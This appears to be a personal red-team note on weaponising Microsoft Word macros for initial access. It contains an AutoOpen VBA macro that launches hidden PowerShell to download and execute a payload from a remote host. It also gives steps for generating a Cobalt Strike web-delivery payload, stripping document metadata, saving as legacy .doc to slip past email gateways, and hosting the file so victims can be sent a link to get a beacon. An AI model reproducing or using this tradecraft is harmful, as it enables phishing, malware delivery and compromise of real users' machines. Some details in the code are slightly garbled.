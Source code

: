 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[VBA Macro]]  
___

## Description:
VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc.

## Installation
You can create a macro in a Word document by going to **View > Macros > Create**.  Change the "Macros in" field from "All active templates and documents" to "Document 1". Give the macro a name and click **Create**.

``` 

Sub AutoOpen()

  Dim proc As Object
  Set proc = GetObject("wscript.shell")
  proc.Create "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"

End Sub

```


In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, Type should be powershell. Copy and paste into your VBA (remember to add double quotes around command).


To prepare the document for delivery, go to **File > Info > Inspect Document > Inspect Document**, which will bring up the Document Inspector. Click **Inspect** and then **Remove All** next to **Document Properties and Personal Information**. This is to prevent the username on your system being embedded in the document.


Next, go to **File > Save As** and browse to **C:\Payloads**. Give it any filename, but in the **Save as type** dropdown, change the format from **_.docx_** to **Word 97-2003 (.doc)**. We do this because you can't save macro's inside a `.docx` and there's a stigma around the macro-enabled `.docm` extension (e.g. the thumbnail icon has a huge `!` and some web/email gateway block them entirely). I find that this legacy `.doc` extension is the best compromise.


When an Office document with an embedded macro is opened for the first time, the user is presented with a security warning (assuming the environment isn't locked down to block macro's entirely). For the macro to execute, the user _must_ click on **Enable Content**.


## Commands

host the HTA on the Team Server so we can simply send a link for them to download and execute. Go to **Attacks > Web drive-by > Host File**. Select **demo.doc** and provide a URI to access it on. 



Run the macro on the victum machine to get a beacon.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (03:33 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
